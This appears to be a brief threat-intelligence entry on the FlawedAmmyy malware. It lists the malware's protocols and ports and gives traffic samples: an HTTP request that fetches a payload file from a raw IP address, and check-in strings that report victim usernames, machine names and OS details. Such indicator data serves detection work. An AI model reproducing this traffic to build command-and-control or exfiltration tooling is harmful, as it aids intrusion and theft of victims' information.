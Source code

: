 # FlawedAmmyy

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
GET /1.tmp HTTP/1.1
Host: 160.202.162.147
Cache-Control: no-cache
```

```
id=56013051&os=10 x64&priv=User+UAC&cred=DESKTOP-PU389HQ\ian&pcname=DESKTOP-PU389HQ&avname=&build_time=22-04-2019 15:17:30 PM&card=0&

id=55140173&os=7 SP1 x86&priv=User+UAC&cred=USER-PC\admin&pcname=USER-PC&avname=&build_time=12-02-2019 13:27:51 PM&card=0&
```
